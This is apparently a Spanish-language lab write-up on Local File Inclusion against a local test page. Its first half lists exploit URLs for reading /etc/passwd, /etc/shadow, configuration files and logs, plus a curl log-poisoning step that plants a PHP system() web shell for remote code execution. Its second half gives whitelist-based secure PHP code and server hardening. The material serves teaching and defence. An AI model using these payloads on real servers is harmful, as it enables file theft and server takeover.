





# LFI

LFI (Local File Inclusion) es una vulnerabilidad web que permite a un atacante incluir archivos locales del servidor en la
respuesta de la aplicación.

Si no se controla correctamente, un atacante podría:
- Leer archivos sensibles como /etc/passwd o C:\windows\win.ini.
- Ejecutar código malicioso si se permite la inclusión de archivos .php.
- Escalar a Remote Code Execution (RCE) si se combina con técnicas de log poisoning.

---

## EXPLOTACIÓN DE LA VULNERABILIDAD

### EXPLOIT 1: Lectura de /etc/passwd (Linux)

**URL:**
```
http://localhost/lfi.php?file=/etc/passwd
```

**Resultado esperado:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

**Impacto:** Revela usuarios del sistema operativo



---

### EXPLOIT 2: Path Traversal con ../

**URL:**
```
http://localhost/lfi.php?file=../../../../etc/passwd
```

**Explicación:**
- `../` sube un nivel de directorio
- Múltiples `../` permiten salir del directorio web
- Accede a archivos fuera del webroot

**Resultado:** Mismo que EXPLOIT 1, pero desde cualquier directorio actual

---

### EXPLOIT 3: Lectura de archivos de configuración

**URL:**
```
http://localhost/lfi.php?file=/etc/apache2/apache2.conf
```

**O en sistemas con PHP:**
```
http://localhost/lfi.php?file=/etc/php/8.0/apache2/php.ini
```

**Impacto:** Expone configuración del servidor web y PHP



---

### EXPLOIT 4: Lectura de logs del sistema

**URL:**
```
http://localhost/lfi.php?file=/var/log/apache2/access.log
```

**Impacto:** 
- Revela historial de accesos
- Puede usarse para Log Poisoning (inyectar código PHP en los logs)



---

### EXPLOIT 5: Lectura de /etc/shadow (si tiene permisos)

**URL:**
```
http://localhost/lfi.php?file=/etc/shadow
```

**Resultado (si tiene permisos):**
```
root:$6$encrypted_password_hash
www-data:*:18000:0:99999:7:::
```

**Impacto:** Acceso a hashes de contraseñas (raramente funciona por permisos)



---

### EXPLOIT 6: Lectura de variables de entorno

**URL:**
```
http://localhost/lfi.php?file=/proc/self/environ
```

**Resultado:**
```
PATH=/usr/bin:/bin
HTTP_USER_AGENT=Mozilla/5.0...
SERVER_SOFTWARE=Apache/2.4
```

**Impacto:** Revela configuración del entorno del servidor



---

### EXPLOIT 7: Log Poisoning → RCE

**Paso 1:** Inyectar código PHP en el User-Agent
```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://localhost/lfi.php?file=test
```

**Paso 2:** Incluir el log con el código inyectado
```
http://localhost/lfi.php?file=/var/log/apache2/access.log&cmd=whoami
```

**Resultado:** Ejecución remota de comandos (RCE)

**Impacto:** Control total del servidor

---

##  ARCHIVOS PROBADOS

### Linux:
```
/etc/passwd -- Funciona
/etc/shadow -- Permiso Denegado
/etc/hosts -- Funciona
/etc/hostname -- Funciona
/etc/issue -- Funciona
/proc/self/environ -- Permiso Denegado
/proc/version -- Funciona
/var/log/apache2/access.log -- No encontrado
/var/log/apache2/error.log -- No encontrado
/var/log/auth.log -- No encontrado
/home/user/.bash_history -- No enocntrado
/home/user/.ssh/id_rsa -- No encontrado
```

---

## CÓDIGO SEGURO (SOLUCIÓN COMPLETA)

### lfi_secure.php
```php
<?php
// ========================================
// INCLUSIÓN SEGURA DE ARCHIVOS
// ========================================

session_start();

// 1. AUTENTICACIÓN (en producción usar BD real)
if (!isset($_SESSION['user_authenticated'])) {
    http_response_code(403);
    exit('Acceso denegado. Autenticación requerida.');
}

// 2. WHITELIST DE ARCHIVOS PERMITIDOS
$allowed_files = [
    'about' => 'pages/about.html',
    'contact' => 'pages/contact.html',
    'terms' => 'pages/terms.html',
    'privacy' => 'pages/privacy.html'
];

// 3. VALIDAR INPUT
$file_key = $_GET['page'] ?? '';

if (empty($file_key)) {
    http_response_code(400);
    exit('Parámetro inválido');
}

// 4. VERIFICAR QUE EL ARCHIVO ESTÉ EN LA WHITELIST
if (!array_key_exists($file_key, $allowed_files)) {
    http_response_code(404);
    error_log("LFI attempt: " . $file_key . " from IP: " . $_SERVER['REMOTE_ADDR']);
    exit('Página no encontrada');
}

// 5. OBTENER RUTA SEGURA
$file_path = $allowed_files[$file_key];

// 6. VALIDAR QUE EL ARCHIVO EXISTA Y ESTÉ DENTRO DEL DIRECTORIO PERMITIDO
$base_dir = __DIR__ . '/pages/';
$real_path = realpath($base_dir . basename($file_path));

// Verificar que realpath no devuelva false y que esté dentro del directorio base
if ($real_path === false || strpos($real_path, $base_dir) !== 0) {
    http_response_code(403);
    error_log("Path traversal attempt: " . $file_path . " from IP: " . $_SERVER['REMOTE_ADDR']);
    exit('Acceso denegado');
}

// 7. VERIFICAR QUE EL ARCHIVO EXISTA
if (!file_exists($real_path)) {
    http_response_code(404);
    exit('Archivo no encontrado');
}

// 8. LEER Y MOSTRAR CONTENIDO DE FORMA SEGURA
$content = file_get_contents($real_path);

// 9. SANITIZAR OUTPUT (si es necesario)
// Si el contenido es HTML confiable, mostrar directamente
// Si no es confiable, usar htmlspecialchars()
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sistema Seguro</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 800px;
            margin: 50px auto;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            background: white;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        .nav {
            background: #007bff;
            padding: 15px;
            border-radius: 5px;
            margin-bottom: 20px;
        }
        .nav a {
            color: white;
            text-decoration: none;
            margin-right: 15px;
            padding: 5px 10px;
        }
        .nav a:hover {
            background: #0056b3;
            border-radius: 3px;
        }
        .content {
            line-height: 1.6;
        }
        .security-info {
            background: #d4edda;
            border-left: 4px solid #28a745;
            padding: 15px;
            margin-top: 20px;
            border-radius: 4px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="nav">
            <a href="?page=about">Sobre Nosotros</a>
            <a href="?page=contact">Contacto</a>
            <a href="?page=terms">Términos</a>
            <a href="?page=privacy">Privacidad</a>
        </div>
        
        <div class="content">
            <?php echo $content; ?>
        </div>
        
        <div class="security-info">
            <strong>Protecciones activas:</strong>
            <ul>
                <li>Whitelist de archivos permitidos</li>
                <li>Validación de rutas con realpath()</li>
                <li>Prevención de path traversal</li>
                <li>Logging de intentos sospechosos</li>
                <li>Autenticación requerida</li>
            </ul>
        </div>
    </div>
</body>
</html>
```

---

### Alternativa: Usar include con validación
```php
<?php
// Alternativa más simple para incluir archivos PHP

$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'] ?? 'home';

// Validar que esté en la whitelist
if (!in_array($page, $allowed_pages)) {
    $page = 'home';
}

// Construir ruta segura
$file = __DIR__ . '/pages/' . $page . '.php';

// Verificar que el archivo existe
if (file_exists($file)) {
    include $file;
} else {
    echo "Página no encontrada";
}
?>
```

---

### Validación de rutas:
```php
// Ejemplo de validación robusta
$base_dir = __DIR__ . '/pages/';
$requested_file = $_GET['file'];

// Resolver ruta absoluta
$real_path = realpath($base_dir . $requested_file);

// Verificar que:
// 1. realpath() no devuelve false (archivo existe)
// 2. La ruta empieza con $base_dir (no hay path traversal)
if ($real_path === false || strpos($real_path, $base_dir) !== 0) {
    exit('Acceso denegado');
}
```

---

## CONFIGURACIONES ADICIONALES

### 1. php.ini
```ini
; Deshabilitar funciones peligrosas
disable_functions = exec,passthru,shell_exec,system,proc_open,popen

; Restringir inclusión de archivos
allow_url_fopen = Off
allow_url_include = Off

; Open basedir (limita acceso a directorios)
open_basedir = /var/www/html:/tmp
```

### 2. Apache .htaccess
```apache
# Denegar acceso a archivos sensibles
<FilesMatch "\.(log|ini|conf|sql|bak)$">
    Order Allow,Deny
    Deny from all
</FilesMatch>

# Proteger directorios sensibles
<DirectoryMatch "^/var/log/">
    Order Allow,Deny
    Deny from all
</DirectoryMatch>
```

### 3. Permisos de archivos (Linux)
```bash
# Archivos web solo lectura
chmod 644 /var/www/html/*.php

# Directorios sin escritura
chmod 755 /var/www/html/

# Logs no accesibles desde web
chmod 640 /var/log/apache2/*.log
chown root:adm /var/log/apache2/*.log
```

---

### MITIGACIÓN:
- **Whitelist de archivos** permitidos
- **realpath()** para resolver rutas
- **strpos()** para verificar directorio base
- **basename()** para eliminar path traversal
- **Autenticación** requerida
- **open_basedir** en php.ini
- **Logging** de intentos sospechosos
- **Permisos correctos** en archivos

---